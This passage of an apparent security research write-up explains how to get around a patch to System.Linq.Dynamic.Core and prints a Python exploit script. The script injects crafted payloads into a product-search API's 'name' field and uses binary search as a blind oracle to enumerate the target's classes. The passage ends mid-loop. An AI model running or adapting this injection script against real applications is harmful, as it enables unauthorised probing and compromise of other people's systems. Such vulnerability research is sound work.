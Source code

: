 ### Latest version property access

[The patch](https://github.com/zzzprojects/System.Linq.Dynamic.Core/commit/3fb84e971abe5fb4d991a2db5f8ad125d075d062#diff-d74bcce2f4faee6ebab990038227298e78241010e3fd6e79fd8f9ab65cb73954L1706) **only restricts method calling to predefined types**. This means that methods on Strings, Arrays, etc. will work, but methods on custom types will not. It is still possible to run methods on custom types that are inherited from allowed classes, and it is still possible to access any properties.

`"".GetType().Module.Assembly` still works to get the _Standard Module_.

`GetType().Module.Assembly` gets the module of the object passed into the `Where()` function, often custom code.

By chaining more properties and using `ToArray()` on enumerables, it is possible to enumerate all classes, attributes, properties and methods in a module. The following script implements this using binary search and requires a `test()` function that injects in such a way that you can evaluate a condition.

<pre class="language-python" data-title="Exploit Script"><code class="lang-python">import requests
from tqdm import tqdm

HOST = "http://localhost:8000"

<strong>def test(condition):
</strong><strong>    data = {
</strong><strong>        "name": f"X\") || {condition} || \"\" == (\"X"
</strong><strong>    }
</strong><strong>    r = requests.post(HOST + "/api/products", json=data)
</strong><strong>    return len(r.json()["products"]) > 0
</strong>
assert test("1==1")
assert not test("1==2")

def binary_search(expression, lo=0, hi=127):
    """Find the value of an integer"""
    while lo &#x3C; hi:
        mid = (lo + hi + 1) // 2
        if test(f"{expression} &#x3C; {mid}"):
            hi = mid - 1
        else:
            lo = mid

    return lo

def find_string(expression):
    length = binary_search(f"{expression}.Length", hi=2**16)

    content = bytes([binary_search(f"{expression}[{i}].CompareTo('\x00')")
                     for i in tqdm(range(length), desc=expression, leave=False)])

    return content.decode()

types = "GetType().Module.Assembly.DefinedTypes"
types_len = binary_search(f"{types}.ToArray().Length")

for type_i in range(types_len):
    type = f"{types}.ToArray()[{type_i}]"
    type_name = find_string(f"{type}.Name")
    print(f"class {type_name} {{")
